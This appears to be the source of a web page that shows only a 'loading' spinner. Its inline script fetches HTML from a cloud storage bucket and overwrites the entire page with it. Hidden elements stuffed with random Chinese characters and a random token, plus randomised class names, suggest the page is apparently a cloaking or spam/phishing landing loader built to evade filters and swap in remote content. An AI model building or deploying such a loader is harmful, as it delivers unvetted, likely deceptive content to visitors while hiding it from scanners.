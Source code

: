         <!DOCTYPE html>
<html>
<head> <meta charset="utf-8" />
    <style>
        iframe {
            display: none;
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        body {
            width: 100%;
            height: 100%;
            margin: 0;
            padding: 0;
            border: 0
        }

        .B9wgDa2R8 {
            position: fixed;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            z-index: 1;
            background-color: #d8d8d8
        }

        .B9wgDa2R8 .pz7x2M63gMC {
            position: absolute;
            left: 0;
            right: 0;
            top: 0;
            bottom: 0;
            height: 50px;
            margin: auto
        }

        .B9wgDa2R8 .content {
            line-height: 50px;
            text-align: center
        }

        .B9wgDa2R8 .img {
            width: 100%
        }

        .B9wgDa2R8 .m6wJvj94 {
            text-align: center
        }

        .B9wgDa2R8 .m6wJvj94 span {
            display: inline-block;
            width: 6px;
            height: 50px;
            background-color: #FF5722;
            -webkit-transform: scaleY(0.4);
            transform: scaleY(0.4);
            -webkit-animation: scale 1s infinite;
            animation: scale 1s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(2) {
            -webkit-animation: scale 1s .2s infinite;
            animation: scale 1s .2s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(3) {
            -webkit-animation: scale 1s .3s infinite;
            animation: scale 1s .3s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(4) {
            -webkit-animation: scale 1s .4s infinite;
            animation: scale 1s .4s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(5) {
            -webkit-animation: scale 1s .5s infinite;
            animation: scale 1s .5s infinite
        }

        .B9wgDa2R8 .m6wJvj94 span:nth-child(6) {
            -webkit-animation: scale 1s .6s infinite;
            animation: scale 1s .6s infinite
        }

        @-webkit-keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        @keyframes scale {
            0% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
            20% {
                -webkit-transform: scaleY(0.8);
                transform: scaleY(0.8)
            }
            40% {
                -webkit-transform: scaleY(1);
                transform: scaleY(1)
            }
            100% {
                -webkit-transform: scaleY(0.4);
                transform: scaleY(0.4)
            }
        }

        .B9wgDa2R8 .tips {
            font-size: 1rem;
            color: #fff;
            text-align: center
        }
    </style>
</head>
<body><script>
    function loadJs(a) { var c = document.createElement("script"); c.src = a, document.body.appendChild(c);}
    function getUrlParam(name) { var reg = new RegExp("(.|&)" + name + "=([^&]*)(&|$)"); var r = window.location.href.match(reg); if (r != null) return unescape(r[2]); return null;}
    function Dget(e, t,a) {
        var n = new XMLHttpRequest;
        //n.timeout = 3000;
        n.onreadystatechange = function () {
            4 === n.readyState && (200 === n.status || 304 === n.status ? "function" == typeof t && t(n.responseText) : "function" == typeof a && a(n))
        };n.ontimeout = function (e) {
            //alert('请求超时,重新发起请求');
            //location.reload();
        };
        n.open("GET", e, !0),
            n.send(null)
    }
    var temp = getUrlParam('temp');

    //if(document.referrer){
    var temp_name = temp +'.html';
    Dget('//20200805hb.oss-cn-hangzhou.aliyuncs.com/0904/sztwoxxsqwefer.html',function(res){
        var doc=document.open("text/html","replace")
        doc.write(res);
        doc.close()
    })
    //}

</script> 
<b style='display:none' >乡萄车无螺嚷乖钠牛憨讥廖施遂呛唤娟贩电鼻绢瑟广鞍卫绒挟剔</b>
<ul style='display:none' >唐阿筋弛蛙炯翱耐耪氰桶锌慈摩挎妨脾奴示患痉案时碍摩艇拟董任吓敝店撩贩疮关矢镜感焦眷墨橙棠钳春</ul>
<a  href='#' style='display:none'>IWcMiIZPVv4GLa3VXqyvn0uUwWIrd3kp61P747tmG3eD3ZWB</a>
<h1 style='display:none' >魔藏苇可突挺棋取溃络菠僵巍焊请伤手藐陷唤插酞阂徘建修撤枪烁穆荷我焙恕拈灌浦崎莎韶娠茸潦墓炒兽双橇脚刷</h1><div class="B9wgDa2R8">
    <div class="pz7x2M63gMC">
        <div class="m6wJvj94">
            <p style="font-size:50px;color:#FF5722; padding-top: 18%; margin:-28% auto">正在加载...</p>

            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span>
            <span></span></div>

    </div>
</div>
</body>

</html>
